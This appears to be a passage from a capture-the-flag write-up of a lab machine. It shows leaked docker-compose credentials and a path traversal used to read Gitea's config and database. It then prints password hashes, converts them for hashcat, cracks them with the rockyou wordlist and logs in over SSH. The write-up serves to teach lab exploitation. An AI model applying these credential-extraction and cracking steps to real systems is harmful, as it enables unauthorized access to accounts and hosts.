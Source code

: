 
````
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}



version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always



version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


````

![Pasted image 20250221112231.png](../../assets/Pasted%20image%2020250221112231.png)
so de structure is `/home/developer/gitea/data/gitea/<datos>` and the defatul gitea confing file is in `conf/app.ini` so lets check it, (because we have a path travertal vector)
![Pasted image 20250221113624.png](../../assets/Pasted%20image%2020250221113624.png)
![Pasted image 20250221113815.png](../../assets/Pasted%20image%2020250221113815.png)
nice now we can preform a crack attack

````txt
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
53c5801d185db951883293b773a1290b5f0b739198d1347ce8604b036eab8cc61bacb713d33e9aad0a7fa53b762c678783d8
3d96983dad27f6189367d8810bb26221a247414df3a5b011b4251a04d23e0b5df495851487376f34e16e7cfae255b56d36e5
````

but we have to change the structure of the hash (https://exploit-notes.hdks.org/exploit/cryptography/key-derivation-function/pbkdf2/) we can use this tool to comberte the hash

````bash
python3 gitea2hashcat.py ../_home_developer_gitea_data_gitea_gitea.db
````

![Pasted image 20250221120029.png](../../assets/Pasted%20image%2020250221120029.png)

now we can use hashcat

````bash
hashcat --username giteaHashes /usr/share/wordlists/rockyou.txt
````

![Pasted image 20250221133550.png](../../assets/Pasted%20image%2020250221133550.png)

* perfect lets try it in a ssh connection\]

````bash
ssh developer@10.10.11.55
````

![Pasted image 20250221133843.png](../../assets/Pasted%20image%2020250221133843.png)
